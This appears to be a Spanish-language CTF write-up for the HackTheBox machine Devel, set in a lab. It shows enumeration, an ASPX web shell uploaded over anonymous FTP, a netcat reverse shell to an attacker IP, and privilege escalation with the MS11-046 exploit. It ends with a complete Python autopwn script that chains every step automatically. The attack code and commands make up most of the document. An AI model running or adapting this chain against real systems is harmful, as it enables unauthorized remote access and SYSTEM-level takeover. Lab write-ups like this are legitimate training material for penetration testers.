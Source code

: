 ```yaml
---
layout: single
title: HackTheBox - Máquina Devel
excerpt: "Solución de la máquina Devel de Hack the Box"
date: 2021-03-24
classes: wide
header:
  teaser: /assets/images/htb/devel/devel.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Windows
  - Easy
---
```


<p align="center">
<img src="/assets/images/htb/devel/devel.png">
</p>

# Enumeración

```bash
nmap -p- -sS --min-rate=5000 --open -vvv -Pn -n 10.10.10.5 -oG allPorts
```

```bash
nmap -sC -sV -p21,80 10.10.10.5 -oN targeted
```

Resultado:

```text
PORT         STATE     SERVICE         VERSION
21/tcp        open       ftp        Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp        open         http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Explotación

La shell en aspx que subire mediante el ftp se encuentra en el directorio `/usr/share/davtest/backdoors/aspx_cmd.aspx`.

```bash
ftp 10.10.10.5 (conexión modo anónima)
put aspx_cmd.aspx
```

A través del navegador accedemos al recurso (10.10.10.5/aspx_cmd.aspx) y saldrá un input para insertar comandos y un botón para ejecutarlos.

Mediante la utilidad <b>smbserver.py</b> de la herramienta impacket, voy a compartir el binario de Netcat (nc.exe) para poder ejecutarlo desde el input de la shell (Mi recurso compartido se llamará shared).

```bash
python3 smbserver.py <nombre_recurso_compartido>  <ruta_a_compartir>
```

Petición a nuestro binario compartido:

```bash
\\10.10.XX.XX\shared\nc.exe -e cmd.exe 10.10.XX.XX 4444
```

En la máquina atacante dejamos el listener:

```bash
nc -nvlp 4444
```

Whoami en la máquina victima:

```bash
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

# Escalado de privilegios

Vamos a enumerar un poco el sistema con `systeminfo` y vamos a utilizar la información de `OS Version: 6.1.7600 N/A Build 7600` 

Investigamos sobre `Version: 6.1.7600 N/A Build 7600 privilege escalation` y como resultado obtenemos [Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564), el script esta c y habría que compilarlo por lo que vamos a descargar el fichero compilado [ms11-046.exe](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046) y subirlo por el ftp a la máquina.

```bash
ftp 10.10.10.5 (conexión anónima)
binary
put ms11-046.exe
```
Por último, vamos a ejecutar el fichero `ms11-046.exe` que se encuentra en el directorio `C:\inetpub\wwwroot` y mediante whoami, obtenemos el usuario `nt authority\system` y para finalizar quedaría obtener las flags.


# Autopwn.py

Se ha automatizado la explotación y la escalada de privilegios con el siguiente script. En la declaración de variables modificar el nombre de los archivos y cambiar la IP y puerto de la víctima atacante.

```python
#!/usr/bin/bash python3

#coding=utf-8

import time, sys, os, re, requests, threading
from pwn import *
from ftplib import FTP

# Variable declaration
malicious_files = ["aspx_cmd.aspx", "ms11-046.exe", "nc.exe"]
URL_CMD = "http://10.10.10.5/%s" % malicious_files[0]
HOST = "10.10.10.5"
FTP_USER = "anonymous"
FTP_PASSWORD = ""
ATTACKER_IP = ""
ATTACKER_PORT = 4444

def def_handler(sig, frame):
    print("[!] Saliendo...")
    sys.exit(1)
    
signal.signal(signal.SIGINT , def_handler)

def header():
    header = """
 ================================================
                _        _____                 _ 
     /\        | |      |  __ \               | |
    /  \  _   _| |_ ___ | |__) |_      ___ __ | |
   / /\ \| | | | __/ _ \|  ___/\ \ /\ / / '_ \| |
  / ____ \ |_| | || (_) | |     \ V  V /| | | |_|
 /_/    \_\__,_|\__\___/|_|      \_/\_/ |_| |_(_)
 ================================================ by SuprAltCtrl                                              
 
 Resources used:
|==== NAME ==== | ============================== PATH ====================================|
| aspx_cmd.aspx | /usr/share/davtest/backdoors/aspx_cmd.aspx                              |
| ms11-046.exe  | https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046 |
| nc.exe        | /usr/share/windows-resources/binaries/nc.exe                            |
===========================================================================================
                                         
"""
    print(header)
    

def run():
    try:
        l1 = log.progress('FTP')
        l1.status("Estableciendo conexion")
        time.sleep(2)
        
        ftp = FTP(HOST,FTP_USER,FTP_PASSWORD)
        ftp.login()
        
        l1.status("Subiendo ficheros")
        time.sleep(2)
        for malicious_file in malicious_files:
            fp = open(malicious_file,'rb')  
            ftp.storbinary('STOR %s' % os.path.basename(malicious_file), fp, 1024)
            fp.close()
            
        s = requests.session()
        r = s.get(URL_CMD)
        
        viewState = re.findall(r'__VIEWSTATE" value="(.*?)"', r.text)[0]
        eventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"', r.text)[0]
        
        post_data = {
            "__VIEWSTATE": viewState,
            "__EVENTVALIDATION": eventValidation,
            "txtArg": "C:\inetpub\wwwroot\%s -e cmd %s %s" % (malicious_files[2],ATTACKER_IP,ATTACKER_PORT),
            "testing": "excute"
        }
        
        l1.success("Archivos subidos correctamente")
        
        l2 = log.progress("Reverse Shell")
        l2.status("Ejecutando binario %s" % malicious_files[2])
        time.sleep(2)
        
        r = s.post(URL_CMD, data=post_data, timeout=2)
        
        l2.success("Comando ejecutado correctamente")
        time.sleep(2)
    
    except requests.exceptions.ReadTimeout:
        l2.success("Comando ejecutado correctamente")
        time.sleep(2)
    
    except Exception as e:
        print(str(e))
        print("[!] Ha ocurrido un error \n")
        sys.exit(1)

if __name__ == "__main__":
    header()
    try:
        t = threading.Thread(target=run)
        t.start()
    except Exception as e:
        log.error(str(e))
        
    shell = listen(ATTACKER_PORT, timeout=20)
    shell.wait_for_connection()
    
    if shell.sock is None:
        log.failure("[!] No se ha establecido la conexion")
        sys.exit(1)
    
    else:
        log.success("Se ha establecido correctamente la conexion")
        time.sleep(2)
        
        l3 = log.progress('Escalada de privilegios')
        l3.status("Ejecutando binario %s " % malicious_files[1])
        time.sleep(2)
        
        shell.sendline("C:\inetpub\wwwroot\%s" %malicious_files[1])
        l3.success("Escalada de privilegios realizada correctamente")
        time.sleep(2)
        shell.sendline("type c:\\Users\\babis\\Desktop\\user.txt.txt")
        shell.sendline("type c:\\Users\\Administrator\\Desktop\\root.txt")
        shell.interactive()
```